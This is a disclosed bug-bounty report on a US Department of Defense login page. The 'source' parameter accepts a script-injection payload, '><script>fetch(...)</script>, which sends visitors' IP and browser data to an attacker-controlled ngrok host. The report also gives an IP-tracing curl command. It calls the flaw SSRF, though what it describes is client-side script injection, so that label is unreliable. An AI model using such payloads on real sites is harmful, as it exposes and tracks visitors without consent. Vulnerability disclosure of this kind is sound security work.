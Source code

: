 # SSRF in login page using fetch API exposes victims IP address to attacker controled server

## Report Details
- **Report ID**: 996273
- **URL**: https://hackerone.com/reports/996273
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-10-02T04:44:22.085Z
- **Disclosed**: 2021-01-12T21:41:19.842Z

## Reporter
- **Username**: iamrose
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Note:      This is similar to my last report #991163. 


**Summary:**
 Server Side Request Forgery Exposes Victims Ip Address to External Server and which made attacker possible to determine physical location of Victim with IP Tracing.
**Description:**
Server Side Request Forgery is the critical vulnerability occurring in web application where attacker can perform malicious action on behalf of server. SSRF can lead to port scanning, cross domain hijacking, pivoting , extracting system files and many more. In this case, I use ngrok to generate our custom domain to prove occurrence of SSRF. Once I have custom ngrok domain i can analyze all request that are coming to the domain.
I used fetch() API property of JS to perform cross domain request and perform Server Side Request Forgery.
 

## Step-by-step Reproduction Instructions
1. Open the URL https://www.█████████
2. Open your ngrok instance and copy your listener domain it
3. SSRF payload  '><script>fetch('your ngrok instance')</script>
4. Append payload to source parameter
5. Final Crafted URL████&source='><script>fetch('your ngrok instance')</script>&server=submit.moboard.com&display=Please+log+on&title=%3C
6. Open 127.0.0.1:4040 in browser to analyze all incoming request
7. Open URL of Step 5 from any other device than the device ngrok is running 
8.  The request from US navy hits our ngrok client in 127.0.0.1:4040
9. The request contain ip address of victim who opened the URL, browser info, Operating System and many more.
10. We can trace victim location with ~$curl ipinfo.io/IP-address-of-victim

Screenshot is attached below with the request from navy server that hit my ngrok client


## Product, Version, and Configuration (If applicable)
Browser: Firefox 80.0.1 64 Bit
## Suggested Mitigation/Remediation Actions

## Impact

Server Side Request Forgery Exposes Victims Ip Address to External Server and which made attacker possible to determine physical location of Victim with IP Tracing. Also, attacker can launch port scans, launch exploits to whoever visits the US NAVY Website.

## Attachments
No attachments
